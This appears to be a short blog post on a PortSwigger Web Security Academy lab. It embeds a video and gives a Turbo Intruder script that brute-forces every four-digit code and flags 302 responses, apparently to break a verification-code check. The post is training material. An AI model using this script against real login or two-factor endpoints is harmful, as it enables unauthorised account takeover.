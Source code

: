 ```yaml
---
layout: post
title:  "PortSwigger WebSecurity Academy"
date:   2022-04-02
categories: 
---
```


<iframe width="560" height="315" src="https://www.youtube.com/embed/iYbM89TuZkw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


{% highlight python linenos=table %}
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=100,
                           requestsPerConnection=1,
                           pipeline=True
                           )
    engine.start()

    for i in range(10000):
        engine.queue(target.req, '{0:04}'.format(i))

def handleResponse(req, interesting):
    if '302' in req.response:
        table.add(req)

{% endhighlight %}

